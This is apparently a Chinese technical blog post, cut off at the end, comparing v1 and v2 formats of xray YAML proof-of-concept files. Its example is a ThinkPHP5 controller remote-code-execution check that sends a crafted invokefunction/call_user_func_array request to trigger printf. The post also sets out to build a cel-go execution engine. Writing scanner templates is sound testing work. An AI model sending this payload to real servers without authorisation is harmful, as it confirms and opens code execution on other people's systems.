 从去年开始 xray的yml poc升级到了v2版本和v1版本相比，执行流程上有了较大变化,以较为简单的thinkphp5的poc来看



v1版本

```yaml
name: poc-yaml-thinkphp5-controller-rce
rules:
  - method: GET
    path: /index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=printf&vars[1][]=a29hbHIgaXMg%25%25d2F0Y2hpbmcgeW91
    expression: |
      response.body.bcontains(b"a29hbHIgaXMg%d2F0Y2hpbmcgeW9129")

detail:
  links:
    - https://github.com/vulhub/vulhub/tree/master/thinkphp/5-rce
```



v2版本

```yaml
name: poc-yaml-thinkphp5-controller-rce
manual: true
transport: http
rules:
    r0:
        request:
            cache: true
            method: GET
            path: /index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=printf&vars[1][]=a29hbHIgaXMg%25%25d2F0Y2hpbmcgeW91
        expression: response.body.bcontains(b"a29hbHIgaXMg%d2F0Y2hpbmcgeW9129")
expression: r0()
detail:
    links:
        - https://github.com/vulhub/vulhub/tree/master/thinkphp/5-rce
```

最主要的区别是是新增了transport、expression两个字段。



transport的取值范围为tcp、udp、http，给xray赋予了探测tcp协议的漏洞。

expression字段改变了v1 poc的执行流程，可利用短路的逻辑来设计执行的流程。



为了彻底搞明白cel执行yml poc的流程，今天就写一个最简单的yml 执行引擎demo，来学习执行的整体流程以及思路。



xray是使用cel-go来做执行引擎的，所以需要cel-go和golang的基础



关于cel语法的demo，可以查看
